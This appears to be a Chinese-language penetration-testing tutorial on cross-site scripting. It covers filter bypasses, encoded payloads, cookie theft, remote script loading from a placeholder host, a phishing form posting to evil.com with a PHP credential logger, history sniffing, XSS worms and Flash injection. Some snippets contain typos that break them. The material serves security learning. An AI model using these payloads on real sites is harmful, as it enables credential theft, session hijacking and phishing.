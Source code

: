 ```yaml
---
title: XSS
date: 2023-09-03T15:29:52+08:00
updated: 2023-04-09T17:25:21+08:00
categories: 
- 渗透测试
- 外网漏洞
---
```


# 2.XSS(跨站脚本攻击)

## 2.1 XSS简介

（英语：Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是[代码注入](https://zh.wikipedia.org/wiki/代碼注入)的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了[HTML](https://zh.wikipedia.org/wiki/HTML)以及用户端[脚本语言](https://zh.wikipedia.org/wiki/腳本語言)。

**XSS**攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是[JavaScript](https://zh.wikipedia.org/wiki/JavaScript)，但实际上也可以包括[Java](https://zh.wikipedia.org/wiki/Java)，[VBScript](https://zh.wikipedia.org/wiki/VBScript)，[ActiveX](https://zh.wikipedia.org/wiki/ActiveX)，[Flash](https://zh.wikipedia.org/wiki/Flash)或者甚至是普通的[HTML](https://zh.wikipedia.org/wiki/HTML)。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、[会话](https://zh.wikipedia.org/wiki/会话)和[cookie](https://zh.wikipedia.org/wiki/Cookie)等各种内容。

XSS是一个非常重要的漏洞，2010年统计来看，XSS已经是世界排名第二的漏洞，因此我们要给予足够的重视。

## 2.2 XSS的分类

常见的XSS我们通常可以分为三种类型，**反射性**，**存储型**，**DOM based xss**;接下来我们分别介绍这三种类型；

### 2.2.1 反射型XSS

反射型XSS，顾名思义，是攻击者在页面插入恶意代码，将用户输入数据“反射”给浏览器，用户点击时会执行的一种漏洞，因此，通常需要用户自行点击，也称为“非持久型XSS”；

### 2.2.2 存储型XSS

存储型XSS，相较于反射型XSS更为复杂，当存在存储型XSS时，用户输入的数据会被保存在服务器端；最简单的例子，攻击者在自己的服务器端搭建含有存储型XSS的恶意代码，并发布这篇含有恶意代码的博客，当用户查看这篇博客时，就会执行这段代码，从而丢失数据信息，这种XSS更为持久，因此也被称为“持久型XSS”；

### 2.2.3  DOM based xss

DOM型与其他类型XSS的本质区别在于，DOM型XSS不需要经过服务器端解析，而是直接解析在前端页面，这里使用pikachu靶场进行演示；

[推荐先学习DOM是什么](https://www.w3school.com.cn/js/js_htmldom.asp)

```html
 <div id="xssd_main">
                <script>
                    function domxss(){
                        var str = document.getElementById("text").value;
                        document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
                    }
                </script>
                <input id="text" name="text" type="text"  value="" />
                <input id="button" type="button" value="click me!" onclick="domxss()" />
                <div id="dom"></div>
            </div>
```

我们通过源码来进行分析；首先定义一个str接受id名为text的属性的值,test的值由我们来提交,将id=dom的属性的值改为:`"<a href '"+str+"'>what do you see?</a>"`，标签为"a";a标签的str来源于上方的获取；我们随意输入一串字符像“fumo"

![dmoxss1](E:\笔记软件\笔记\从零开始的web安全\dmoxss1.png)

可以看到href被改为了fumo，当我们输入' onclick="alert('fumo')">时再点击what do you see 就会执行弹窗

![domxss2](E:\笔记软件\笔记\从零开始的web安全\domxss2.png)

此时代码如图，这串代码只会在前端执行，并没有与服务器端产生任何交互。

![domxss3](E:\笔记软件\笔记\从零开始的web安全\domxss3.png)

## 2.3 XSS漏洞进阶

### 2.3.1 利用XSS盗取cookie

小tips:

```
在当前浏览器页面地址栏输入javascript:alert(document.cookie)会弹出当前页面的cookie
```

这里使用留言板进行测试；由于留言板禁用了<script>标签，我选择一个<img>标签的payload进行使用；

![guestbook1](E:\笔记软件\笔记\从零开始的web安全\guestbook1.png)

插入内容中，我们即可看到项目中返回的cookie;

![guestbook2](E:\笔记软件\笔记\从零开始的web安全\guestbook2.png)

接下来即可使用cookie登录后台；重新开一个浏览器，访问返回的地址，发现登陆失败，我们进行cookie的添加；再次访问返回的后台地址，成功登录，至此，我们完成了最简单的XSS盗取cookie登录后台的利用；

### 2.3.2 绕过xss-filter

利用漏洞的过程不总是一帆风顺的，我们会遇到很多过滤，很多禁止字符，这就需要我们利用特殊的姿势进行绕过；

(1)直接利用<>注射 html/js

这种情况其实非常少见，在一般情况下，<>都是被过滤掉的，以防止我们使用<>来操纵标签植入代码，如果禁用了<>;

很多代码就不能使用，例如：

`<script>shellcode</script>`

(2)利用html标签属性值执行xss

很多html标签支持javascript:[code]伪协议的形式，我们利用这个性质控制标签属性值进行XSS，例如：

`<img src="javascript:alert('xss');"> `

需要注意的是并不是所有浏览器都支持这类伪协议；

(3)利用空格，回车，tab键进行绕过

如果过滤仅仅是把敏感词拿到黑名单中检查，我们可以采用使用空格，回车和tab键的形式，例如过滤了javascript关键字：

`<img src="javas	cript:alter(/xss/);">`

这里的间隔便是用tab键进行分割，同样可以执行alter(/xss/)的命令，这种拆分法可以绕过很多关键词的过滤；

出现这种状况的原因比较复杂，主要是javascript对语句的检索，当一行中有多个语句时必须使用分号，只有一句则可以省略分号；

```html
var a 
="hello world";
alter(a);
//javascript会查询一个完整的语句到结束，所以即便存在换行符，a同样可以赋值成功；
<img src="javas
cript:
alter(/xss/)"width=100>
成立
```

(4)转码绕过

由于html属性值支持ascii码的形式，我们可以将字符转换为ascii码进行执行，例如：

`<img src="javascript&#58alert(/xss/);">` &#58是':'的ascii形式；

我们甚至可以全部转码

`<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#48;&#120;&#46;&#97;&#120;&#47;&#49;&#112;&#99;&#68;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>`

还可以把&#01.&#02插入头部，同理回车空格tab键的ascii转码可以插入任意位置;

(5)事件处理函数

事件处理函数可以让我们不使用属性就可以完成跨站脚本；

eg: `<input type="button" value="click me" onclick="alert(/xss/)" />`

当我们点击按钮之后就会出现弹窗；当然这样的函数并不只是onclick,也会有很多其他函数

[更多事件函数](https://www.runoob.com/jsref/dom-obj-event.html)

(6)css跨站剖析

利用css样式表来解析XSS脚本；CSS虽然很隐蔽，但需要注意的是不同的浏览器可能不能通用；

主要了解css跨站，import,expression引用 ；

(7)扰乱过滤规则

转换大小写，大小写混用，双引号改单引号或者是不使用引号；

![rule1](E:\笔记软件\笔记\从零开始的web安全\rule1.png)

利用全角字符替换半角字符；

利用样式表中/**/注释字符的特性，来插入过滤内容；

```
<XSS STYLE="xss:expr/*fumo*/ession(alert('xss'))">
<div style="wid/**/th: expre/*fumo*/ssion(alert('XSS'));" >
```

除/**/以外，样式标签中的\和结束符\0也被浏览器忽略；

### 2.3.3 字符编码的利用

可将字符转化为十进制编码，16进制等形式的编码进行绕过

```html
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#48;&#120;&#46;&#97;&#120;&#47;&#49;&#112;&#99;&#68;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>
```

同上可以在编码后加上; 

或者使用&#000,这里的0数量不定；

16进制可以使用如下形式进行执行，使用eval函数；

```
<script>
eval("\xxx\xxx\xxx\xxx\xxx");
</script>
```

使用eval函数执行10进制代码需要配合String.fromCharCode()使用，这个函数将字符转化为ascii码值；

```
eg: 
<img src="javascript:eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))">
```

JScript Encode和VBScript Encode

利用二者加密的脚本可正常在IE浏览器下执行；

### 2.3.4 跨站拆分法

当网站没有限制<>等字符，但是对字符长度有过滤，网站可以重复留言的情况下，我们可以使用跨站拆分法；

![kuazhan1](E:\笔记软件\笔记\从零开始的web安全\kuazhan1.png)

最后通过eval执行了xss代码；

### 2.3.5 调用shellcode

(1)动态调用远程javascript

将XSS代码保存在服务器再进行调用；

```
var s=document.creatElement("script");
s.src="http://www.xxxx.com/xss.js";
document.getElementByTagName("head")[0].aapendChild(s);
xss.js中存储着我们的恶意代码
```

(2)使用windows.location.hash

原理上，使用location.href来管理页面的url，再location.href=url(url自定义)即可对当前页面进行重定向；

location.hash则可以用来获取或设置页面的标签值；

(3)xss下载器

打造一个XSS downloader,事先将shellcode写在网站页面，再利用XMLHTTP控件向网站发送HTTP请求（POST或GET），执行返回的数据；

### 2.3.6 session会话劫持

与cookie的区别:cookie存储在浏览器或是客户端，而session存储在服务端内存内，关闭浏览器(关闭进程)，session就会被清除

例如：攻击者想要添加管理员账号，可以使用firebug劫持http通信数据，添加即可；

**xss获取webshell**

通过向网站写入恶意代码，上传后门，就可以劫持管理员备份数据库的会话，从而拿到webshell;

### 2.3.7 xss网络钓鱼

**XSS Phishing**

(1)钓鱼页面

尽量做到与原网站相似，html代码可从原网站复制，主要是登陆表单；

然后将原表单的登陆地址修改例如：

```
<form method="post" action="http://www.evil.com/get.php">
//这里的get.php放在自己的vps上用来接收登录信息
```

(2)接收登录信息

get.php内容如下

```php
<? php
$data = fopen("logfile.txt","a+");
$login = $_POST['username'];
$pass = $_POST['password'];
fwrite($data, "Username: $login\n");
fwrite($data, "Password: $pass\n");
fclose($data);
Header("location: http://target.com");
?>
//header头用于重新定向到原网站
//接收数据形式应与原网址一致
```

(3)XSS Phishing Expliot

![phishing](E:\笔记软件\笔记\从零开始的web安全\phishing.png)

**xss钓鱼的方式**

(1)xss重定向钓鱼

将原目标网站重新定向到恶意的钓鱼网站

```html
http://www.xxx.com/index.php?search="'><script>document.location.href="http://www.emp.com"</script>
```

(2)html注入式钓鱼

直接利用XSS漏洞注射html/javascript代码到页面中；

(3)XSS跨框架钓鱼

利用iframe引用第三方内容伪造登陆控件，主页面仍然是正常的域名，隐蔽性较高；

(4)flash钓鱼

利用flash文件进行钓鱼，flash好像已经没有更新了；

**更高级的钓鱼方式**

当设置了httponly时，我们无法再通过截取cookie来达到获得用户权限，更为简单的利用方式直接注入js脚本劫持html表单和控制web行为

### 2.3.8 css/javascript history hack

原理：利用CSS能自定义访问过的和为访问过的超级链接样式。由于javascript可以读取任何元素的CSS信息，能分辨浏览器应用了哪种样式和用户是否访问过该来链接；

```html
	<H3>Visited</H3>
	<ul id="visited"></ul>

	<H3>Not Visited</H3>
	<ul id="notvisited"></ul>
	<script type="text/javascript">
	var websites = [
		"http://ha.ckers.org/blog/",
		"http://login.yahoo.com/",
		"http://mail.google.com/",
		"http://mail.yahoo.com/",
		"http://my.yahoo.com/",
		"http://sla.ckers.org/forum/",
		"http://slashdot.org/",
		"http://www.amazon.com/",
		"http://www.aol.com/",
		"http://www.apple.com/",
		"http://www.bankofamerica.com/",
		"http://www.bankone.com/"
	];

	/* Loop through each URL */
	for (var i = 0; i < websites.length; i++) {
		
		/* create the new anchor tag with the appropriate URL information */
		var link = document.createElement("a");
		link.id = "id" + i;
		link.href = websites[i];
		link.innerHTML = websites[i];

		/* create a custom style tag for the specific link. Set the CSS visited selector to a known value, in this case red */
		document.write('<style>');
		document.write('#id' + i + ":visited {color: #FF0000;}");
		document.write('</style>');
		
		/* quickly add and remove the link from the DOM with enough time to save the visible computed color. */
		document.body.appendChild(link);
		var color = document.defaultView.getComputedStyle(link,null).getPropertyValue("color");
		document.body.removeChild(link);
		
		/* check to see if the link has been visited if the computed color is red */
		if (color == "rgb(255, 0, 0)") { // visited
		
			/* add the link to the visited list */
			var item = document.createElement('li');
			item.appendChild(link);
			document.getElementById('visited').appendChild(item);
			
		} else { // not visited
		
			/* add the link to the not visited list */
			var item = document.createElement('li');
			item.appendChild(link);
			document.getElementById('notvisited').appendChild(item);
			
		} // end visited color check if

	} // end URL loop
	</script>
```

遍历查询用户是否访问过某些网站；

## 2.4 客户端信息刺探

### 2.4.1 javascript实现端口扫描

[端口扫描工具](https://www.gnucitizen.org/blog/javascript-port-scanner/)

还有很多其他工具，这个不一定好用；

### 2.4.2 截获剪切板内容

截获用户的剪切板信息是为了获取用户可能截取的关键信息；

###  2.4.3 获取客户端IP

[介绍链接](https://juejin.cn/post/6844903984356917256)

**更多可以和xss进行联动的攻击例如DDOS，XSSworm请自行搜寻**

## 2.5 XSS工具利用

### 2.5.1 firebug

firefox插件，可动态修改页面，并将结果反映到浏览器窗口，可抓取流量包，具有dom查看器，并且firebug具有查看最终源代码的功能；

### 2.5.2 Tamper Data

类似于轻量化的bp抓包功能

### 2.5.3 Live HTTP Headers

拦截流量包，添加了replay功能；

### 2.5.4 Fiddler

抓包工具，可查看所有数据包以及返回内容；

**bp具有以上工具的大部分功能**

## 2.6 XSS漏洞挖掘

###  2.6.1 黑盒工具测试

(1)Acunetix

(2)XssDetect

(3)ratpeoxy

**手动黑盒测试**

测试内容：

<> ，xss，&,#等重要字符是否过滤，输入这类字符后，在页面查看是否转码或是编译；

也可以直接使用完整的XSS代码进行测试；

如果过滤了<>等字符，我们可以采用事件触发xss

```html
origin:
<input name="name" value=<?=$xxx?>>
//其中$xx为动态内容,赋值为xss onmouseover=evil_script(),得到最终渲染内容
<input name="name" value=xss onmouseover=evil_script()>
//执行事件
```

对url的测试

通常我们可以看出url中的参数，我们对这些参数分别赋值测试即可

```html
eg:我们有如下url
www.test.com?a=123&b=123&c=123
我们的测试方法为
www.test.com?a=alert<"xss'>&b=123&c=123
//同理对b,c进行赋值
```

通常我们会遇到需要闭合标签的情况，例如

```
<input type="text" name="address" value="xss">
XSS为我们可控制的值，我们就可以闭合标签;
//xss  "><script>alert(/xss/)</script><"
<input type="text" name="address" value=""><script>alert(/xss/)</script><"">
//从而执行我们的代码；
```

## 2.7 XSS源代码审计

源代码审计，即白盒测试，在拥有源代码的情况下我们对XSS漏洞进行挖掘并修复；

基本思路：

寻找页面可输出变量，检验他们是否受到控制，跟踪变量的传递方式，查看过滤以及是否被htmlencode();

通常存在动态内容的标签

```html
input style img.......
```

**获取可控动态变量**

**php**

查看全局变量

![phpgloabal](E:\笔记软件\笔记\从零开始的web安全\phpgloabal.png)

这些对象我们通常都需要审计；

**javascript**

**DOMXSS挖掘**

```html
假设我们有如下代码
<html>
 <head>
    <title> DOM XSS Test</title>
</head>
<body>
    <script>
        var a=document.URL;
            document.write(a.substring(a.indexOf("a=")+2,a.length));
        </script>
    </body>
</html>
```

这段代码的作用是从rul接收一个a，并将a打印在首页，且并没有进行过滤，我们可以利用a；

```
?a=<script>alert('xss')</script>
```

浏览器会将html文本解析成dom，并返回代码执行结果；

domxss发掘

```
document.referrer属性
window.name属性
location属性
//重点检查用户输入源，例如上述属性值
```

挖掘输出位置，即字符串在页面的输出位置列入:innerHTML,document.write等函数

二者基本思路：跟踪函数变量，查看是否能够控制；

**FlashXSS发掘**

flash具有内置编程语言ActionScript;ActionScript语言编写不规范，同样能造成XSS；

ActionScript2.0具有类似于php注册全局变量的特性，任何未初始化的变量都可以通过flashvar进行初始化；

```
例如:
if(checkLogin()){
	user=true;
}
if(user){
	manager();
}
我们只需要?user=true即可绕过过滤;
```

![actionscript](E:\笔记软件\笔记\从零开始的web安全\actionscript.png)

要挖掘flash，我们需要多.swf文件反编译，得到actionscript代码，推荐使用action script viewer;

同样的，我们需要寻找可以控制的输入点，特别是load*方法;

## 2.8 利用语言特性

**phpinfo()**

```
<?php
phpinfo();
?>
//编写如下文件，执行得到phpinfo界面
```

在低版本的phpinfo()中，对用户输入的变量没有转义就打印出来，攻击者可以通过构造特殊url向phpinfo()中注入html代码引起xss;

```
http://127.0.0.1/phpinfo.php?a[]=<script>alert(/xss/);</script>
//经测试5.3.29版本已经具有转义功能
```

**$_SERVER[PHP_SELF]**

该代码表示php文件相对于网站根目录的相对位置，假设有如下代码

```php
<form method="POST" action="<?php echo $_SERVER['PHP_SELF'];?>">
		<input type="hidden" name="submitted" value="1" />
		<input type="submit" value="Submit!" />
</form>
```

我们把它保存在data.php中，构造，并执行xss弹窗；

```
http://127.0.0.1/data.php/%22%3E%3Cscript%3Ealert('xss')%3C/script%3E%3C
```

问题出在<?php echo $_SERVER['PHP_SELF']>，该代码直接输出PHP_SELF变量，该变量可由用户控制

```
推荐使用htmlentities($_SERVER['PHP_SELF'])来替代，我们使用该函数后，上述的代码便不再有效,当然很多$_SERVER变量都有可能存在该问题；
```

**变量覆盖**

当可以变量覆盖的时候，我们可以轻易地执行xss；下面列举几种能引起变量覆盖的情况；

(1)register_globals=on

该参数在php4.2.0以上的php版本默认屏蔽，当该变量被打开时，各种变量都可以被重新注册，包括来自html表单的请求变量，由于php变量使用前不需要进行初始化，所以可以直接使用；该参数已在php5.4以上版本进行移除；

(2)extract

该函数用于将变量从数组导入到当前符号表中；

假设具有如下代码，

```php
<?php
$a=1;
extract($_GET);
echo $a
?>
```

由于$a已经被初始化，我们访问extract.php页面，理所当然得到1,注意GET传递的参数，我们试着覆盖变量$a;

```
http://127.0.0.1/extract.php?a=<script>alert(/xss/)</script>
```

就能够正常的执行弹窗；

(3)遍历初始化变量

遍历初始化变量同样会造成变量覆盖；使用foreach()函数模拟全局操作；

```php
<?php 
	$a=1;
	foreach($_GET as $key => $value){
		$$key =$value;
	}
	print $a;
```

传递

```
a=b&b=<script>alert(/xss/)</script>
```

很简单我们就能利用这个变量覆盖执行xss;

## 2.9 XSS Worm 剖析

### 2.9.1 初步了解web 2.0

已知web1.0在于连接用户和网站，网站提供什么，用户就只能读到什么，而web2.0与web1.0最大的区别在于连接用户与用户，增大了用户获取的信息面；

同时也造成了更多的安全隐患，我们能够利用web2.0进行更广泛的钓鱼，csrf，ajax,flash;

### 2.9.2 Ajax技术

**简析Ajax**

这里研究ajax技术是为了更好的研究xss蠕虫

传统的Web应用允许用户端填写表单（form），当提交表单时就向[网页服务器](https://zh.wikipedia.org/wiki/網頁伺服器)发送一个请求。服务器接收并处理传来的表单，然后送回一个新的网页，但这个做法浪费了许多带宽，因为在前后两个页面中的大部分[HTML](https://zh.wikipedia.org/wiki/HTML)码往往是相同的。由于每次应用的沟通都需要向服务器发送请求，应用的回应时间依赖于服务器的回应时间。这导致了用户界面的回应比本机应用慢得多。

与此不同，AJAX应用可以仅向服务器发送并取回必须的数据，并在客户端采用JavaScript处理来自服务器的回应。因为在服务器和浏览器之间交换的数据大量减少，服务器回应更快了。同时，很多的处理工作可以在发出请求的[客户端](https://zh.wikipedia.org/wiki/客户端)机器上完成，因此Web服务器的负荷也减少了。

类似于[DHTML](https://zh.wikipedia.org/wiki/DHTML)或[LAMP](https://zh.wikipedia.org/wiki/LAMP)，AJAX不是指一种单一的技术，而是有机地利用了一系列相关的技术。虽然其名称包含XML，但实际上数据格式可以由[JSON](https://zh.wikipedia.org/wiki/JSON)代替以进一步减少数据量。而客户端与服务器也并不需要异步。一些基于AJAX的“派生／合成”式（derivative/composite）的技术也正在出现，如[AFLAX](https://zh.wikipedia.org/wiki/AFLAX)。

简单来说Ajax就是将简单的处理交给了客户端，并且传递更新内容，页面相应更新内容，并不在需要再发送完整的数据，从而提高用户体验；

**XMLHttpRequest对象**

建立一个XMLHttpRequest对象方法如下：

```javascript
try
{
	httpRequest = new ActiveXObjext("Msxml2.XMLHTTP"); //IE5,IE6使用ActiveXObjext对象
}//IE7+、Firefox、Chrome、Safari 以及 Opera均内键xmlhttprequest对象，variable=new XMLHttpRequest();即可
catch (e)
{
	try{
		httpRequest = new ActiveXObjext("Microsoft.XMLHTTP");
	}
	catch (e){
		httpRequest = new flase;
	}
}
```

该代码创建了一个ActiveXObject对象，传入的参数是ActiveX对象的progID,此处为Msxml2.XMLHTTP;

为了通融浏览器版本问题，我们通常使用以下代码；

```javascript
var xmlhttp;
if (window.XMLHttpRequest)
{
    //  IE7+, Firefox, Chrome, Opera, Safari 浏览器执行代码
    xmlhttp=new XMLHttpRequest();
}
else
{
    // IE6, IE5 浏览器执行代码
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}
```

(1)XMLHttpRequest 对象的方法

![xmlhttprequest](E:\笔记软件\笔记\从零开始的web安全\xmlhttprequest.png)

(2)xmlhttprequest对象的属性

![xmlhttprequest2](E:\笔记软件\笔记\从零开始的web安全\xmlhttprequest2.png)

### 2.9.3 HTTP请求

**发送get.post请求**

```
//get
var xml=new getXmlHttpRequest();//创建请求
xml.open("GET","/web/url.php?"+data,true)//初始化请求
xml.send();; //建立连接并发送数据
//post
var xml=new getXmlHttpRequest();//创建请求
data="id=11&username=xxx&password=xxx";//设置发送数据
xml.open("POST","/web/regist.php",true)//初始化请求
xml.setRequestHeader("Content-Type","appliacation/x-www-form-urlencode");//设置content-type头部，数据以何种形式发送
xml.send(data);; //建立连接并发送数据
```

### 2.9.4 HTTP响应

如需获得来自服务器的响应，请使用 XMLHttpRequest 对象的 responseText 或 responseXML 属性。

responseText返回字符串，responseXML返回XML形式的响应数据；

看一个浅显的例子；

```php
var xmlhttp;
if (window.XMLHttpRequest)
{
    xmlhttp=new XMLHttpRequest();
}
else
{
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}//创建对象
xmlhttp.onreadystatechange=function() //在文档状态更新时调用
	{
		if (xmlhttp.readyState==4 && xmlhttp.status==200)
		{ 	//xml =xmlresponseXML;xml=xmlresponseText;
			xml=null;
		}
	}
	xmlhttp.open("GET","web/url.php?",true);
	xmlhttp.send();
```

### 2.9.5  XSS Worm介绍

XSS worm 实质上是一段脚本程序，通常由javascript或者Vbscript编写而成，在用户浏览xss页面时被激活，站点利用该特性进行传播和感染；类似的还有csrf worm;

**攻击原理简析**

XSS蠕虫通常使用了大量的Ajax技术，由于异步的特性，使得利用ajax的xssworm具有更强的隐蔽性，具有更快的传播速度；

完整的XSS蠕虫攻击流程如下

攻击者发现目标网站存在xss漏洞并且可编写xss蠕虫

利用一个宿主（如博客空间）作为传播源头进行XSS攻击

当其他用户访问存在XSS蠕虫的博客时，执行以下操作：

​	判断用户是否登录i，登录则执行下一步否则执行其他操作

​	继续判断用户是否被感染，没有则将其感染；否则跳过；

**攻击行为**

XSS' or

(1)寻找xss点

和挖掘xss漏洞一致，我们要在目标的日志，留言等地获得一个alert()弹窗

(2)实现蠕虫行为

将XSS shellcode写入后，诱导其他用户点击该网站，用户访问后就会受到劫持，攻击者就可以利用ajax修改用户信息，并将恶意代码添加进去，此过程会不断持续，利用XMLHttpRequest对象，可在后台执行任意操作

(3)收集蠕虫数据

我们可以使用抓包工具来得到蠕虫所需要的“唯一值”数据，例如用户的id等

(4)传播和感染

###  2.9.6 运用dom技术

常见方法为给出一个特定标识符，然后使用document和getElementByld()来访问；

```html
<div>
var div1 =document.getElemnetById("div1");//遍历dom
document.getElementByname //获得指定name的<html>标签的相关信息
doucument.getElementTagName //获得指定的<html>标签相关信息
dom元素无非两种：文本和元素，使用innerHTML属性就可以从一个元素中提取所有的html和文本。
<div id="tr1">
<h1>hello world!</h1>
</div>
<script>
alert(document.getElementById("tr1").innerHTML);
</script>
使用innerHTML方法还可以向HTML DOM中插入新的内容，具体实例如下：
<a href="#" onclick="this.innerHTML='<h1>this is new message</h1>' ">old message</a>
a.beforeBegin //插入到标签开始标记前
b.afterBegin //插入到标签开始标记后
c.beforeEnd //插入到标签结束标记前
d.afterEnd //插入到标签结束标记后
```

dom技术还可获取和设置元素特性的值

```
id("domid").getAttribute("id"); //获取特性
tag("input")[0].setAttribute("value","your name"); //设置特性的值
```

修改dom的主要方法是使用createElement()函数，该函数可以让用户即刻创建新的元素；

document.createElenment()能在对象中创建一个对象，通常会与appendChild()或insertBefore()联合使用。appendChild()在节点的子节点列表末添加新的子节点，insertBefore()在节点的子节点列表的任意位置插入新的节点；

```html
<html>
<body>
<script>
var o = document.body;//创建链接
function creatA(url,text)
{
	var a = document.createElement("a"); //创建一个<a>元素
	a.href =url; //设定链接的url地址
	a.innerHTML=text; //设置名称
	a.style.color="red"; //设定链接颜色
	o.appendChild(a); 
	}
	creatA("http://uu2fu3o.com/","playsec");
	</script>
	</body>
	</html>
```

还可以使用javascript方法进行辅助,例如indexOf/substring/lastindexOf

IndexOf方法：返回String对象内第一次出现子字符串的位置

substring方法：返回位于String对象中的指定位置的字符串

function substring(start: number,end : number) :String

如果start和end为负数，则会替换为0；

**xss蠕虫通常会与csrf形成绑定，造成更加效率的攻击，网络上也有很多实战记录**

## 2.10 Flash简介

### 2.10.1 flash和swf

swf为flash的专属格式，flash player可运行swf文件，swf文件可以直接嵌入到网页中执行

### 2.10.2 嵌入flash文件

```
(1)使用<embed>标签
<html>
	<body marginwidth="0" marginheigth="0">
		<embed width="100%" height="100%" name="plugin">
		src="xxx.swf" type="application/x-shockwave-flash"/>
	</body>
</html>
(2)使用<object>标签
(3)使用<object>+<embed>标签
```

### 2.10.3 ActionScript 语言

flash内置的脚本语言-ActionScript,该语言基于javascript,具有类似的语法和结构，但本质上却截然不同，actionscript使用的脚本完全由flash player解释和处理，与查看文件的浏览器无关，而javascript使用的外部解释程序则很具浏览器的不同而不同；

### 2.10.4 flash安全模型

**flash sandbox**

安全域是flash中最顶级的沙箱，不同的安全与使得swf文件运行在自身的沙箱下；

如果连个swf文件位于不同的沙箱下，二者数据不可相互获取；

如果想让二者进行通讯，可通过信任授权(方法:Security.allow.Domain())来实现。

Security.allow.Domain("*")会为所有域中的swf授权访问；

非swf格式文件不能调用allowDomain 代码，这类文件由另一种方法Cross Domain Policy文件处理；

### 2.10.5 CRoss  Domain Policy

类似于javascript中的同源策略；

![crossdomainpolicy](E:\笔记软件\笔记\从零开始的web安全\crossdomainpolicy.png)

唯一能让flash实行跨域请求的是网站根域名下的crossdomain.xml文件

该文件定义了可被flash player加载的安全网站域名，并限制读取数据的位置i和内容，例如

```xml
<?xml version="1.0"?>
<cross-domain-policy>
<allow-access-from domain="*.target.com"/>
<allow-access-from domain="www.test.org"/>
<allow-access-from domain="123.202.0.1"/>
</cross-domain-policy>
```

则该文件允许来自上述三个域名的跨域请求

除了allow-access-from节点，根节点下还包含另外三个子节点；

![crossxmldomain](E:\笔记软件\笔记\从零开始的web安全\crossxmldomain.png)

如果设置了permitted-cross-domain-policies的by-content-type相关属性后，黑客就可以上传文件来定义自己的策略文件；

### 2.10.6 设置管理器

本地flash player自行设置安全域等

## 2.11 Flash客户端攻击剖析

### 2.11.1 getURL()&XSS

**clickTAG**

该变量用于跟踪广告，提供广告的显示范围，事件点击次数，时间；

```
利用<embed><object>插入广告横幅
<embed
src="http://www.test.com/xxxx.swf?clickTAG=http://test.com/track?http://example.com
">
```

如果没有正确检查clickTAG变量，就有可能执行xss

```
例如
getURL(clickTAG,"_top")
传入?clickTAG=javascript:alert(/xss/)就可以执行弹窗
```

getURL函数的作用将来自特定URL的文档加载到窗口中，或将变量传递到位于所定义的另一个URL的另一个应用程序

![getURL](E:\笔记软件\笔记\从零开始的web安全\getURL.png)

如果我们使用javascript来替换，就能得到弹窗

```
getURL("javascript:alert(document.cookie)")
假设有如下脚本
getURL("javascript:void(0)","_self","GET");
访问http://xxx.x.x.x/xxx.swf?a=0:0;alert(/xss/);
即可触发弹窗
```

actionscript3不支持getURL,用actionscript2.0编写即可

![flashhighrisk](E:\笔记软件\笔记\从零开始的web安全\flashhighrisk.png)

### 2.11.2 cross site flashing

XSF通常来自两个不同的域，当使用某方法载入另一个swf时，就能获取相同的安全沙箱

当网页使用*Script去解析一个flash影片时也会产生xsf

```html
例如
loadMovie(_root.mURL+'/movie2.swf')//不一定是loadMovie方法
访问
http://host/foo.swf?mURL=asfunction:getURL,javascript:alert(xss)//
结果为
loadMovie('asfunction:getURL,javascript:alert(xss)///movie2.swf')
触发弹窗
```

![loadMovie](E:\笔记软件\笔记\从零开始的web安全\loadMovie.png)

asfunction伪协议是一个专用于Flash的HTML附加协议，允许用户通过超级链接调用函数或一个带参的函数；

### 2.11.3 Flash参数型注入

(1)反射型flash参数注入

当lfash视频的名称作为url参数暴露在外时，攻击者可以控制装入flash的变量，加载一个恶意flash视频

```
print '<object type="application/x-shockwave-flash" data ="' . $params{movie}'"></object>'
传入http://xxx.x.x.x/index.cgi?movie=myMovie.swf?globalVar=e-v-i-l
```

(2)附带FlashVars的反射型注入Flash参数注入

该方法使用Flash Vars属性，该属性可在**<object>**标签中指定，用来传递全局Flash 参数。AS2.0中，FlashVars会被自动导入到Flash应用程序的变量空间

(3)FlashVars注入

当任意的object标签接收参数时都可能导致该种攻击

```
print '<object type="application/x-shockwave-flash" '.
'data="myMovie.swf"'.
'width="'.$params{width}.
'"height="'.$params{height}.
'"></object>';
由于width和height没有进行过滤，所以
http://xxx.x.x.x/myMovie.cgi?width=600&height=600"flashvars="globalVar=e-v-i-l
```

(4)基于dom的flash参数注入 

当document.location 变量被用作Flash参数时，会导致此类攻击

(5)持久型flash参数注入

